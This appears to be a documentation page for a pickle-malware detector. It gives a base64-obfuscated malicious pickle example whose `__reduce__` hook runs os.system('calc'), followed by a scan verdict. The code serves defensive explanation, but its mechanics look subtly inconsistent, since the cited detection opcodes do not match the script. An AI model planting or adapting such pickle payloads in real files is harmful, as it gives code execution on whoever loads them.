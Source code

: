 ## Example 3: Polymorphic Malicious Pickle

### Description
This example demonstrates a more sophisticated polymorphic pickle that attempts to evade detection by obfuscating its malicious code.

### Malicious Pickle Code
```python
import pickle
import base64
import types

# Obfuscated malicious code
obfuscated_code = """
aW1wb3J0IG9zCmRlZiBtYWxpY2lvdXNfZnVuYygpOgogICAgb3Muc3lzdGVtKCJjYWxjIikKICAgIHJldHVybiBUcnVl
"""

class PolymorphicPayload:
    def __reduce__(self):
        # Decode the obfuscated code
        code = base64.b64decode(obfuscated_code).decode('utf-8')
        
        # Create a dynamic function from the code
        exec_globals = {}
        exec(code, exec_globals)
        
        # Return the function to be executed
        return (exec_globals["malicious_func"], ())

# Create the malicious pickle
with open('polymorphic_payload.pkl', 'wb') as f:
    pickle.dump(PolymorphicPayload(), f)
```

### Visual Analysis
**Polymorphic Pickle Analysis:**
- **Opcode Pattern:** Obfuscated with base64 encoding layers
- **Suspicious Modules:** `base64.b64decode`, dynamic `exec` calls
- **Entropy Level:** Very High (encoded payloads increase randomness)
- **Structure:** Multi-layer obfuscation with dynamic code generation

### Detection Results
```
Detection Result: MALICIOUS (Confidence: 96.5%)
Threat Type: Obfuscated Code Execution
Explanation: This pickle contains obfuscated code with base64 encoding and dynamic execution
Key indicators: GLOBAL opcode referencing base64.b64decode, exec pattern, high entropy strings
Scan Time: 0.042ms
```
